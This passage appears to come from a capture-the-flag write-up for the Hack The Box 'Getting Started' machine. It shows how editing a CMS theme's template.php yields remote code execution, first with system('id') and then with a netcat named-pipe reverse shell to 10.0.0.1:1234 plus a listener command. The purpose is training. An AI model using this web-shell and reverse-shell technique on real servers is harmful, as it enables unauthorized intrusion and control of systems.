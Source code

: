 Seems that we can upload files from the `Files` section, but does not work.

# Remote code execution

## Theme section

In the `Theme` section, under the tab `Edit theme`, we can edit the `template.php` file, but we can't load this page directly.
Why? Because the code says so.
Let's see if we can get a command execution here.
We will comment or delete all code in `template.php` and we will edit the file appending the following php code at the beginning:

```php
<?php system('id'); ?>
```

![PHP code execution test](htb-getting-started-php-code-execution-test.png)
*PHP code execution test*

We save changes and we can curl this file (`http://gettingstarted.htb/theme/Innovation/template.php`), or browse it, and we see that we have a RCE (remote code execution).

```
$ curl http://gettingstarted.htb/theme/Innovation/template.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now we have a RCE (remote code execution) and we need to take advantage of this RCE to convert it in a remote shell.

We will edit again the `template.php` file.
But, this time, we will append the following bash one-liner reverse shell to the beginning:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f"); ?>
```

![Bash reverse shell](htb-getting-started-bash-reverse-shell.png)
*Bash reverse shell*

We need to start a netcat listener on our host (the attacker):

```
$ nc -lvnp 1234
```

We have to curl or browse to he `template.php` file (`http://gettingstarted.htb/theme/Innovation/template.php`), again, to execute the reverse shell.
Now, we have a working reverse shell.

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
